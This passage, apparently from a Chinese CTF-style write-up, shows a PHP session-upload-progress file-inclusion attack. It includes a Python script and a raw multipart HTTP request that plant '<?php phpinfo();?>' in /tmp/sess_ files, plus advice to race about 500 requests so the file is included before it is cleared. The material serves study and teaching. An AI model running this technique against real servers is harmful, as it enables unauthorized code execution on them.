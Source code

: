 通过把上传的文件改为shell内容，然后通过包含来执行我们shell内容，至于`session`默认地址就那常见的几个

```python
# -*- coding: utf-8 -*-
import requests


url = 'http://xxx.xxx.xxx.xxx:xxxx/?page=/tmp/sess_mochu7'
mydata = {'PHP_SESSION_UPLOAD_PROGRESS':'<?php phpinfo();?>'} 
myfile = {'file':('mochu7.txt','mochu7')}
mycookie = {'PHPSESSID': 'mochu7'}
r = requests.post(url=url, data=mydata, files=myfile, cookies=mycookie)
print(r.request.body.decode('utf8'))
```

得到POST内容

```http
--dca6fb822b1647c7236dfa8b08e1e7fe
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php phpinfo();?>
--dca6fb822b1647c7236dfa8b08e1e7fe
Content-Disposition: form-data; name="file"; filename="mochu7.txt"

mochu7
--dca6fb822b1647c7236dfa8b08e1e7fe--
```

完整一下POST数据包，更改下`Content-Type`即可

```http
POST /?page=/tmp/sess_mochu7 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 351
Content-Type: multipart/form-data; boundary=---------------------------dca6fb822b1647c7236dfa8b08e1e7fe
Cookie: PHPSESSID=mochu7

-----------------------------dca6fb822b1647c7236dfa8b08e1e7fe
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php phpinfo();?>
-----------------------------dca6fb822b1647c7236dfa8b08e1e7fe
Content-Disposition: form-data; name="file"; filename="mochu7.txt"

mochu7
-----------------------------dca6fb822b1647c7236dfa8b08e1e7fe--
```

用`Intruder`发`500`左右个包即可有执行回显，类似条件竞争，抢在被清除前包含执行
